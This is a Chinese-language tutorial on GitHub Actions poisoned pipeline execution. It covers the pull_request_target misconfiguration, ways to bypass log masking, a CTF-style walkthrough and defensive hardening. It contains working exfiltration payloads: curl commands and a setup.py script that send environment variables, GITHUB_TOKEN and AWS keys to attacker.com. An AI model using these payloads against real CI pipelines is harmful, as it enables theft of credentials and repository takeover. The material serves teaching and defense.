

# CI-CD管道安全与GitHub-Actions投毒执行(PPE)攻防

---

## 0. 基础前置知识扫盲：为什么 CI/CD 成为黑客眼中的“终极王冠”？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在传统的 Web 安全视角中，黑客的路径通常是：找 SQL 注入 $\to$ 上传 WebShell $\to$ 提权 $\to$ 横向移动。
然而，在现代基于云原生和敏捷开发的企业中，所有的代码、服务和部署都被一个极其强大的“自动化中枢”所控制——**CI/CD 流水线（持续集成与持续交付，如 GitHub Actions、GitLab CI、Jenkins）**。

### 1. 通俗生活类比：全自动印钞机与流水线投毒
- **普通开发人员**：负责写图纸（写业务代码）。
- **CI/CD 自动化流水线（Runner）**：**全自动现代化印钞装配流水线**。
  - 程序员每往 GitHub 推送（Push）一次代码，或者提一个 Pull Request（PR），流水线就会自动唤醒一台**虚拟机（Runner）**；
  - 这台虚拟机拥有至高无上的权力：它被注入了**企业的生产数据库密码、AWS/阿里云最高管理密钥、Docker 镜像仓库推送 Token、苹果开发者证书**；
  - 它的任务是：自动拉取代码、编译构建、打包成 Docker 镜像，并自动部署到全公司的生产环境！
- **黑客的终极捷径**：
  黑客不再费尽心思去挖外网防火墙的漏洞，而是**直接往流水线传送带里扔一颗有毒的零件（有毒流水线执行 PPE）**。
  只要流水线一触发，Runner 自动以超级管理员权限替黑客执行恶意脚本，瞬间将全公司的云端密钥直接打包发送到黑客的公网服务器！



---

## 1. PPE（Poisoned Pipeline Execution，有毒管道执行）底层机理

PPE 是指攻击者通过污染或篡改版本控制仓库中的代码或配置，**诱骗 CI/CD 流水线代表攻击者执行任意代码**的技术。通常分为两大路径：

### 1.1 直接 PPE（Direct PPE）
- **触发条件**：攻击者拥有仓库的直接提交权限（如低权限外包账号被盗），或者目标仓库对外部分支的 PR 没有开启审查确认。
- **攻击方式**：攻击者直接修改版本库根目录下的流水线配置文件（如 `.github/workflows/build.yml`），直接在 `run:` 指令中插入恶意反弹 Shell 或环境变量打印语句：
  ```yaml
  - name: Malicious Step
    run: |
      env | base64 | curl -d @- http://attacker.com/leak
  ```

### 1.2 间接 PPE（Indirect PPE）
- **触发条件**：流水线配置文件本身受到保护（如主分支受保护，且禁止修改 `.github/` 目录）。
- **攻击方式**：攻击者无法修改 `.yml` 文件，但他可以修改被流水线**间接引用的构建脚本、测试代码或依赖**！
  - 例如工作流中有一步：`run: npm test` 或 `run: make build` 或 `run: pytest`；
  - 攻击者修改项目中的 `package.json`（在 `scripts.test` 中加入恶意命令），或者修改 `Makefile`，或者在单元测试用例的代码首行注入恶意木马；
  - 当 CI 启动执行单元测试时，测试用例自动以 Runner 机器权限静默执行恶意代码！

---

## 2. 致命核弹陷阱：`pull_request` vs `pull_request_target`

这是 GitHub Actions 历史上导致最多顶级开源项目（如 Google、Apache、PyTorch 等）被攻陷的头号架构陷阱。

### 2.1 产生背景与开发者的困境
- 在开源项目中，维护者希望让全世界的外部贡献者提交 Pull Request（PR）。
- 如果使用默认的 `on: pull_request` 事件：
  GitHub 为了安全，**默认禁止为来自外部 Fork 仓库的 PR 提供任何敏感 Secrets**，且 `GITHUB_TOKEN` 只有只读权限。
- 但开发者经常需要流水线自动给外部 PR 打标签、发表评论，或者自动运行测试。为了让外部 PR 能获取到权限，开发者在文档中看到了另一个事件：**`pull_request_target`**。

### 2.2 `pull_request_target` 的双刃剑机理
| 特性对比项 | `on: pull_request`（默认安全） | `on: pull_request_target`（极度高危） |
| :--- | :--- | :--- |
| **执行上下文** | **来自 Fork 仓库的不可信上下文** | **来自目标基准主分支（Base Branch）的可信上下文** |
| **Secrets 访问权**| **严格禁止**访问仓库的任何 Secrets | **完全拥有**对仓库全部 Secrets 的读写访问权！ |
| **`GITHUB_TOKEN` 权限**| 只读（Read-Only） | **读写（Read-Write）**（有权推送代码、创建发布） |

### 2.3 经典漏洞利用链（代码级致命混配）

很多开发者误以为 `pull_request_target` 只是为了拿到 Token，于是写出了如下代码：

```yaml
# 漏洞文件：.github/workflows/review.yml
name: PR Code Review
on: 
  pull_request_target: # 致命点 1：工作流在主分支高权限上下文中执行，拥有全部 Secrets!

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout PR Code
        uses: actions/checkout@v3
        with:
          # 致命点 2：显式检出了来自外部 Fork 仓库的、攻击者提交的不可信恶意分支代码!
          ref: ${{ github.event.pull_request.head.sha }}

      - name: Run Tests
        # 致命点 3：在拥有高权限 Secrets 的环境中，执行了来自不可信分支的代码!
        run: |
          npm install
          npm test
```

#### 攻击者利用步骤（0 门槛秒杀仓库）：
1. 攻击者在 GitHub 上 Fork 该项目；
2. 在自己的 Fork 分支中，修改 `package.json`，植入后门：
   ```json
   "scripts": {
     "test": "curl -X POST -d \"$GITHUB_TOKEN\" http://attacker.com/steal_token"
   }
   ```
3. 攻击者向原项目提一个 Pull Request；
4. 原项目的 GitHub Actions 立即被自动触发（无需维护者合并代码！）；
5. Runner 在持有原仓库核心 Secrets 的环境下执行了 `npm test`，原仓库的特权 Token 瞬间被发送到攻击者手中！

---

## 3. GitHub 默认日志脱敏机制（Log Masking）与绕过实战

很多初学者在调试 Runner 时尝试直接执行 `run: echo $SUPER_SECRET`，结果发现 GitHub 控制台日志中显示的全是 `***`。
这是因为 GitHub Actions 内置了**日志脱敏过滤器（Log Masker）**：所有注册在 Secrets 中的明文字符串，在被打印到标准输出时都会被强行替换为星号 `***`。

### 绕过日志脱敏的三大实战黑魔法：

#### 技巧 1：Base64 编码或十六进制转储
脱敏器只能匹配原始明文字符串，无法识别编码后的形式：
```bash
# 直接 Base64 编码输出，绕过 *** 拦截
echo $SECRET_TOKEN | base64
# 或者使用 xxd 十六进制转储
echo $SECRET_TOKEN | xxd -p
```
控制台将输出明文的 Base64 字符串，拉回本地 `base64 -d` 即可完美还原明文！

#### 技巧 2：字符串按字符逐字插入分隔符或逆序
```bash
# 将字符串逆序打印
echo $SECRET_TOKEN | rev

# 在每个字符之间插入特殊字符
echo $SECRET_TOKEN | sed 's/./& /g'
```

#### 技巧 3：网络外带（OOB Out-of-Band）直接回传
根本无需打印到控制台，直接发起 HTTP POST 请求发送到自己的 VPS 服务器：
```bash
curl -X POST -d "token=$SECRET_TOKEN" http://attacker-server.com/log
```

---

## 4. CTF / 实战案例复盘：从一个公开 PR 盗取云厂商 AccessKey

### 赛题背景：
- 某国际著名开源 AI 工具仓库；
- 目标：获取存储在 GitHub Secrets 中用于部署云端 GPU 机器的 `AWS_SECRET_ACCESS_KEY`；
- 防护机制：主分支强制开启 Code Review，非仓库组织成员无法合并代码。

### 进攻实战全流程：

#### 步骤 1：信息收集与工作流审计
安全研究人员翻阅该项目的 `.github/workflows/` 目录，发现一个名为 `pr-benchmark.yml` 的文件：
```yaml
name: Benchmark Pull Request
on:
  pull_request_target:
    types: [opened, synchronize]

jobs:
  benchmark:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - name: Setup Python
        uses: actions/setup-python@v4
      - name: Run Benchmark
        env:
          AWS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
          AWS_SECRET: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
        run: |
          python setup.py test
```

#### 步骤 2：构造武器化载荷
攻击者 Fork 该仓库，修改其根目录下的 `setup.py` 文件，在文件头部插入提取逻辑：
```python
import os
import urllib.request
import base64

aws_key = os.environ.get("AWS_KEY", "")
aws_secret = os.environ.get("AWS_SECRET", "")
leak_data = f"KEY:{aws_key}|SECRET:{aws_secret}".encode()

req = urllib.request.Request(
    "http://attacker.com/leak",
    data=base64.b64encode(leak_data),
    headers={"User-Agent": "CI-Runner"}
)
try:
    urllib.request.urlopen(req, timeout=5)
except:
    pass
```

#### 步骤 3：提交 PR 与凭据收网
向主仓库提交 PR。30 秒后，攻击者的公网服务器收到 HTTP POST 请求：
```text
POST /leak HTTP/1.1
Host: attacker.com
Content-Length: 76

S0VZOjEzNTc5MjQ2ODBBV1N8U0VDUkVUOmZsYWd7Q0lfQ0RfUHVsbF9SZXF1ZXN0X1RhcmdldF9Qd25lZH0=
```
本地 Base64 解码后获得：
`KEY:1357924680AWS|SECRET:flag{CI_CD_Pull_Request_Target_Pwned}`！
攻击者在未经过任何管理员审核的情况下，直接将云端最高机密全部收割。

---

## 5. 蓝队企业级纵深防御与安全基线加固

1. **废弃不可信的 `pull_request_target` + `checkout` 组合**：
   - 如果必须在 PR 中运行测试，坚决使用默认的 `on: pull_request`；
   - 坚决杜绝在 `pull_request_target` 工作流中检出外部贡献者的不受信任的分支代码（`ref: ${{ github.event.pull_request.head.sha }}`）。
2. **推行最小权限原则（Permissions Hardening）**：
   - 在工作流文件首部显式限定 `GITHUB_TOKEN` 的最小权限，避免默认给予 `write-all`：
     ```yaml
     permissions:
       contents: read
       issues: write
       pull-requests: write
     ```
3. **锁定 Action 的完整不可变 Commit SHA**：
   - 严禁使用标签形式引入第三方 Action（如 `uses: actions/checkout@v3`，因为标签可以被恶意维护者篡改指向恶意代码）；
   - 必须锁定 40 位不可变的 Git Commit SHA：
     ```yaml
     uses: actions/checkout@ac593985615ec2ede58e132d2e21d2b1cbd6127c # pin@v3.3.0
     ```
4. **全面转向 OIDC（OpenID Connect）无密部署**：
   - 彻底废除在 GitHub Secrets 中长期存放 AWS、阿里云等 AccessKey 的传统模式；
   - 使用基于 OIDC 的短期联邦身份认证，Runner 仅获取有效时间为 15 分钟的临时令牌，即使泄露也会在瞬间自动失效。
